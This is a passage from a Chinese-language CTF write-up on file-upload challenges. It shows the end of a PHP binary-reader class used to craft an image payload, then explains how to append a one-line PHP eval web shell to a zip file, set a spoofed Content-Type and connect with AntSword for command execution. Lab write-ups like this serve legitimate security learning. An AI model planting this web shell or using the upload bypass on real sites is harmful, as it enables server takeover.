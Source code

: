 ```php
        $this->binData = substr($this->binData, $skip);
    }

    public function readByte() {
        if($this->eof()) {
            die('End Of File');
        }
        $byte = substr($this->binData, 0, 1);
        $this->binData = substr($this->binData, 1);
        return ord($byte);
    }

    public function readShort() {
        if(strlen($this->binData) < 2) {
            die('End Of File');
        }
        $short = substr($this->binData, 0, 2);
        $this->binData = substr($this->binData, 2);
        if($this->order) {
            $short = (ord($short[1]) << 8) + ord($short[0]);
        } else {
            $short = (ord($short[0]) << 8) + ord($short[1]);
        }
        return $short;
    }

    public function eof() {
        return !$this->binData||(strlen($this->binData) === 0);
    }
}

```

执行成功后会生成**payload_1.jpg**

![image-20230728012935422](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728012935422.png)

上传后可搭配bp抓包实现命令执行

### [web166]zip

只能上传zip，那我们就上传一个一句话的zip文件，然后用蚁剑连接

新建一个zip文件，后面插入一句话木马

```
<?php eval(@$_POST['a']); ?>
```

需要注意的是`Content-Type`为`application/x-zip-compressed`

![image-20230728020642046](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230728020642046.png)
